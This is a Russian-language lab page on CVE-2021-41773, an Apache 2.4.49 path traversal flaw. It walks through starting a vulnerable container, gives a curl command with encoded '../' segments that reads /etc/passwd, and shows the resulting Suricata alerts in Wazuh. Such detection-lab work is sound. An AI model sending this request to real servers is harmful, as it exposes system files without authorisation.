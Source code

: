 # CVE-2021-41773

Ошибка была обнаружена в изменении нормализации путей в Apache HTTP Server 2.4.49. Если файлы за пределами этих каталогов не защищены обычной конфигурацией по умолчанию "require all denied", запросы на их чтение могут быть успешными.&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу http://ваш-ip:8080 будет доступна дефолтная страница с фразой "It works!"

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Для воспроизведения уязвимости выполните команду:

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости и о выводе файла /etc/passwd в ответе на ваш запрос.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
